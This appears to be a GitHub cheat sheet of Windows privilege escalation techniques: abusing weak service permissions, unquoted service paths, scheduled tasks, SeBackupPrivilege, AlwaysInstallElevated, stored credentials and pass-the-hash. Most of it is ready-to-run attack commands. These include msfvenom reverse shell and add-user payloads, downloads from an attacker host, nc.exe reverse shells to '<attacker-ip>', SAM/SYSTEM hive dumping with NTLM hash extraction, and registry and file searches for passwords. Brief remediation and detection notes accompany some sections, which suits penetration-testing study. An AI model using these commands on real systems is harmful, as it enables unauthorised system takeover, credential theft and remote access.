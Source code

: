 #####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================
In Windows, services running as LocalSystem (highest privilege) with non-default or writable executable paths and weak permissions can be exploited for privilege escalation. This document provides detection, exploitation, and remediation steps.

🔍 1. Enumerate Services Running as LocalSystem with Non-Standard Paths
These services might use custom paths (e.g., C:\Users\Public\svc.exe) instead of the protected default (C:\Windows\System32).

✅ PowerShell:

    Get-WmiObject Win32_Service | Where-Object {
    $_.StartName -eq "LocalSystem" -and
    $_.PathName -notlike "C:\Windows\System32*"
    } | Select-Object Name, StartName, PathName
✅ WMIC:
cmd

    wmic service get name,startname,pathname | findstr /i "LocalSystem" | findstr /v /i "C:\\Windows\\System32"
🔐 2. Check Permissions on Service Configuration
Use AccessChk to determine whether a user can start, stop, configure, or modify a service.

✅ Command:
cmd

    .\accesschk64.exe /accepteula -uwcqv user servicename
Look for permissions like:

Permission	Meaning
SERVICE_ALL_ACCESS	Full control
SERVICE_CHANGE_CONFIG	Can change service binary path
WRITE_DAC / WRITE_OWNER	Can escalate to full control
GENERIC_WRITE / GENERIC_ALL	Equivalent to full control

📂 3. Identify Writable Service Executables
✅ Export Executable Paths:

    for /f "tokens=2 delims='='" %a in ('wmic service list full ^| find /i "pathname" ^| find /v /i "system32"') do @echo %a >> C:\Windows\Temp\services.txt
✅ If wmic is not available:
cmd

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
✅ Check Permissions:
cmd

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do accesschk.exe /accepteula -qv "%a" >> accesschk.txt
Or use icacls/cacls:

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do icacls "%a" >> icacls.txt
Look for:

Symbol	Meaning
(F)	Full Access
(M)	Modify Access
(W)	Write Access
(WDAC)	Write DACL
(WO)	Write Owner

⚙️ 4. Exploitation Steps
✅ 4.1 Replace the Service Executable
Generate a reverse shell payload (Metasploit):

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o reverse_priv.exe
Host it:

bash

    python3 -m http.server 8999
Transfer to target:

powershell

    wget http://<attacker_ip>:8999/reverse_priv.exe -o reverse_priv.exe
Overwrite service binary:

powershell

    copy reverse_priv.exe "C:\Path\To\Service.exe"
✅ 4.2 Start the Service
c

    sc start <service>
Or:

cmd

    net start <service>
⚡ 5. Writable Service Object Exploitation
✅ Find Writable Service Objects
cmd

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *
✅ Update Service Binary Path
cmd

    sc config <service> binPath= "C:\Path\To\reverse_priv.exe"
Remove dependencies if blocking:

cmd

    sc config <service> depend= ""
Change service start mode to manual:

cmd

    sc config <service> start= demand
Update service to run as SYSTEM:

c

    sc config <service> obj= ".\LocalSystem" password= ""
✅ Start/Stop Service:
cmd

    sc stop <service>
sc start <service>
Or:

cmd

    net stop <service>
    net start <service>
🧪 6. Validate Exploitability
powershell

    Get-WmiObject Win32_Service -Filter "Name='<service>'" |
  Select-Object Name, DisplayName, StartMode, State, StartName, PathName
🤖 7. Automated Enumeration
✅ SharpUp
Use SharpUp.exe for automated privilege escalation checks.

cmd

    SharpUp.exe --services
✅ Summary of Exploit Steps
Step	Description
🔍 1	Find services running as LocalSystem with writable paths
🔐 2	Check if current user can change or control the service
💣 3	Replace binary with malicious payload
▶️ 4	Restart or trigger the service to execute payload
⚡ 5	Get SYSTEM-level shell

🔐 Remediation Checklist
✅ Always install services in C:\Windows\System32

✅ Set tight permissions using sc sdset or GPO

✅ Regularly audit services using:

 Sysinternals AccessChk

 PowerUp / SharpUp

✅ Enable AppLocker / Software Restriction Policies

✅ Monitor service creation/modification with Sysmon

</details>

<details>
<summary>SeBackupPrivilege</summary>
 <br> 
This specific privilege escalation is based on the act of assigning a user the SeBackupPrivilege. It was designed to allow users to create backup copies of the system. Since it is not possible to make a backup of something that you cannot read. This privilege comes at the cost of providing the user with full read access to the file system. This privilege must bypass any ACL that the Administrator has placed in the network. So, in a nutshell, this privilege allows the user to read any file on the entirety of the files that might also include some sensitive files.

Files like the SAM file or the SYSTEM registry file are particularly valuable to attackers. Once an attacker gains an initial foothold in the system, they can exploit this access to move up to an elevated shell. They do this by reading the SAM files and potentially cracking the passwords of high-privilege users on the system or network.

After connecting to the target machine using Evil-WinRM, we can check if the user we logged in has the SeBackupPrivilege. This can be done with the help of the whoami command with the /priv option. It can be observed from the image below that the user aarti has the SeBackupPrivilege.

    whoami /priv



## Exploiting Privilege on Windows
Now, we can start the exploitation of this privilege. As we discussed earlier that this privilege allows the user to read all the files in the system, we will use this to our advantage. To begin, we will traverse to the C:\ directory and then move to create a Temp directory. We can also traverse to a directory with read and write privileges if the attacker is trying to be sneaky. Then we change the directory to Temp. Here we use our SeBackupPrivilege to read the SAM file and save a variant of it. Similarly, we read the SYSTEM file and save a variant of it.

     cd c:\
     mkdir Temp
     reg save hklm\sam c:\Temp\sam
     reg save hklm\system c:\Temp\system

  

Transferring Files to Kali Linux
Now that the Temp directory contains the SAM and SYSTEM files, use the Evil-WinRM download command to transfer these files to your Kali Linux machine.

    cd Temp
    download sam
    download system
## Extracting Hashes with Pypykatz and Gaining Access
Now, we can extract the hive secrets from the SAM and SYSTEM files using the pypykatz. If not present on your Kali Linux, you can download it from its GitHub[https://github.com/skelsec/pypykatz]. It is a variant of Mimikatz cooked in Python. So, we can run its registry function and then use the –sam parameter to provide the path to the SAM and SYSTEM files. As soon as the command run, we can see in the demonstration below that we have successfully extracted the NTLM hashes of the Administrator account and other users as well.

    pypykatz registry --sam sam system

Now, we can use the NTLM Hash of the raj user to get access to the target machine as a raj user. We again used Evil-WinRM to do this. After connecting to the target machine, we run net user to see that raj user is a part of the Administrator group. This means we have successfully elevated privilege over our initial shell as the aarti user.

 </details>
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

----------------------

Find unquoted service paths:

.. code-block:: none

    wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

If the unquoted service path is :code:`C:\Program Files\path to\service.exe`, you can place a binary in any of the following paths:

.. code-block:: none

    C:\Program.exe
    C:\Program Files.exe
    C:\Program Files\path.exe
    C:\Program Files\path to.exe
    C:\Program Files\path to\service.exe

</details>
<details>
<summary>Scheduled Task/Job</summary>
 <br> 
An attacker can exploit Windows Task Scheduler to schedule malicious programs for initial or recurrent execution. For persistence, the attacker typically uses Windows Task Scheduler to launch applications at system startup or at predefined intervals. Furthermore, the attacker executes remote code under the context of a specified account to achieve Privilege Escalation.

Task Scheduler
 You can easily schedule an automatic job using the Task Scheduler service. When you utilize this service, you set up any program to run at a specific date and time that suits your needs. Subsequently, Task Scheduler evaluates the defined time or event criteria and runs the task once those conditions are met.

Abusing Schedule Task/Job
An attacker can escalate privileges by exploiting Schedule Task/Job. Following an initial foothold, we can query to obtain the list for the scheduled task.

    schtasks /query /fo LIST /V
This helps an attack to understand which application is attached to execute Job at what time.
 
 To obtain a reverse shell as NT Authority SYSTEM, first create a malicious EXE file that a scheduled task can execute. Using Msfvenom, we then generate the EXE file and inject it into the target system accordingly.

    msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=8888 -f exe > shell.exe
To abuse the scheduled Task, the attacker will either modify the application by overwriting it or may replace the original file from the duplicate. To insert a duplicate file in the same directory, we rename the original file as a file.bak.

Then downloaded malicious file.exe in the same directory with the help of wget command.
   
    powershell wget 192.168.1.3/shell.exe –o file.exe
Once the duplicate file.exe is injected in the same directory then, the file.exe will be executed automatically through Task Scheduler. As attackers make sure that netcat listener must be at listening mode for obtaining reverse connection for privilege shell.

    nc -lvp 8888
    whoami /priv

Detection
Tools such as Sysinternals[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns] Autoruns can detect system changes like showing presently scheduled jobs.
Tools like TCPView[https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview] & Process Explore[https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer] may help to identify remote connections for suspicious services or processes.
View Task Properties and History: To view a task’s properties and history by using a command line
Schtasks /Query /FO LIST /V

Enable the “Microsoft-Windows-TaskScheduler/Operational” configuration inside the event logging service to report scheduled task creation and updates.
</details>
<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================

Find passwords in arbitrary files:

.. code-block:: none

    findstr /si password *.txt *.xml *.ini

Find strings in filenames:

.. code-block:: none

    dir /s *pass* == *cred* == *vnc* == *.config*

Find passwords in all files:

.. code-block:: none

    findstr /spin "password" *.*

Common files which contain passwords:

.. code-block:: none

    type c:\sysprep.inf
    type c:\sysprep\sysprep.xml
    type c:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
    dir c:*vnc.ini /s /b
    dir c:*ultravnc.ini /s /b
    dir c:\ /s /b | findstr /si *vnc.ini

Search for passwords in the registry:

.. code-block:: none

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
    reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================

The following commands can be used to dump password hashes:

.. code-block:: none

    wce32.exe -w
    wce64.exe -w
    fgdump.exe

Remote
------

Pass the hash remotely to gain a shell:

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-ip> cmd

Sometimes you may need to reference the target by its hostname (add an entry to /etc/hosts to make it resolve):

.. code-block:: none

    pth-winexe -U <domain>/<username>%<hash> //<target-hostname> cmd

Alternative:

.. code-block:: none

    export SMBHASH=<hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd

Local
-----

Pass the hash locally using runas:

.. code-block:: none

    C:\Windows\System32\runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

Pass the hash locally using PowerShell:

.. code-block:: none

    secpasswd = ConvertTo-SecureString "<hash>" -AsPlainText -Force
    mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
    computer = "<hostname>"
    [System.Diagnostics.Process]::Start("C:\Windows\Temp\nc.exe","<attacker-ip> 53 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

Pass the hash locally using psexec:

.. code-block:: none

    psexec64 \\<hostname> -u <username> -p <hash> -h "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"

</details>
<details>
<summary>Loopback Services</summary>
 <br> 
=================

Search for services listening on the loopback interface:

.. code-block:: none

    netstat -ano | findstr "LISTEN"

Use plink.exe to forward the loopback port to a port on our attacking host (via SSH):

.. code-block:: none

    plink.exe -l <attacker-username> -pw <attacker-password> <attacker-ip> -R <attacker-port>:127.0.0.1:<target-port>

</details>
<details>
<summary>AlwaysInstallElevated</summary>
 <br> 
=====================

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions.

Both the following registry values must be set to "1" for this to work:

.. code-block:: none

    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

Create a malicious MSI:

.. code-block:: none

    msfvenom -p windows/adduser USER=pwned PASS=P@ssw0rd -f msi -o evil.msi

Use msiexec to run the malicious MSI:

.. code-block:: none

    msiexec /quiet /qn /i C:\evil.msi

</details>
<details>
<summary>Stored Credentials</summary>
 <br> 

==================

If there are stored credentials, we can run commands as that user:

.. code-block:: none

    $ cmdkey /list

    Currently stored credentials:

    Target: Domain:interactive=PWNED\Administrator
    Type: Domain Password
    User: PWNED\Administrator

Execute commands by using runas with the /savecred argument. Note that full paths are generally needed:

.. code-block:: none


    runas /user:PWNED\Administrator /savecred "C:\Windows\System32\cmd.exe /c C:\Users\Public\nc.exe -nv <attacker-ip> <attacker-port> -e cmd.exe"

   </details>
